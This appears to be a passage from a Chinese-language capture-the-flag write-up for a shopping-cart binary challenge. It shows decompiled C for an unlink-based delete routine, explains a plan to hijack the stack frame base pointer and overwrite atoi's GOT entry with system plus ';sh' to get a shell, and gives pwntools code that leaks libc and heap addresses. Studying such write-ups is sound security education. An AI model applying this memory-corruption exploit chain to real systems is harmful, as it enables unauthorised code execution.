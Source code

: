 ```c
  int v4; // [esp+1Ch] [ebp-2Ch]
  int v5; // [esp+20h] [ebp-28h]
  char nptr; // [esp+26h] [ebp-22h]
  unsigned int v7; // [esp+3Ch] [ebp-Ch]

  v7 = __readgsdword(0x14u);
  v1 = 1;
  v2 = (_DWORD *)dword_804B070;
  printf("Item Number> ");
  fflush(stdout);
  my_read(&nptr, 0x15u);
  v3 = atoi(&nptr);
  while ( v2 )
  {
    if ( v1 == v3 )
    {
      v4 = v2[2];
      v5 = v2[3];
      if ( v5 )
        *(_DWORD *)(v5 + 8) = v4;
      if ( v4 )
        *(_DWORD *)(v4 + 12) = v5;
      printf("Remove %d:%s from your shopping cart.\n", v1, *v2);
      return __readgsdword(0x14u) ^ v7;
    }
    ++v1;
    v2 = (_DWORD *)v2[2];
  }
  return __readgsdword(0x14u) ^ v7;
}
```
  看到unlink实现的代码，我们确实能修改某些地址上的内容，但是这个"某些地址"也是有条件的，倘若直接rop修改handler函数返回地址为system地址，那么delete函数会同时修改system函数中的内容，造成程序崩溃;
  综上，delete中的unlink不能以system函数为目标，故切换思路，寻找程序中读取输入的函数，劫持其参数，达到写入system函数地址到got表完成got hijacking的目的;
  观察handler函数的内容发现:
```c
char nptr; // [esp+16h] [ebp-22h]
my_read(&nptr, 0x15u);
switch ( atoi(&nptr) )
//...
```
  nptr, 即ebp-22h的地方可以利用，可以将handler函数的ebp劫持到got表atoi-22h的地方，nptr与atoi函数地址重叠，再读入system_addr 与 ";sh\x00"到该位置即可getshell;

## 利用思路

  首先通过简单的计算构建出能生成iPhone8节点的输入:
```py
for i in range(16):
	add(b'1')
for i in range(10):
	add(b'4')
checkout()
```
  接下来，进到cart()函数中，利用myread来覆盖ebp-0x20(iphone8.itemName)处为puts的got表地址，以此泄露libc地址，通过链表遍历的办法来获得栈上节点地址:
```py
def leakAddr(data):
	cart(data)
	p.recvuntil(b'27: ')
	return u32(p.recv(4))
items_start_at = 0x804B070
libc_base = leakAddr(p32(e.got['puts']) + p32(0)*3) - l.symbols['puts']
heap_base = leakAddr(p32(items_start_at) + p32(0)*3)
temp_addr = heap_base
```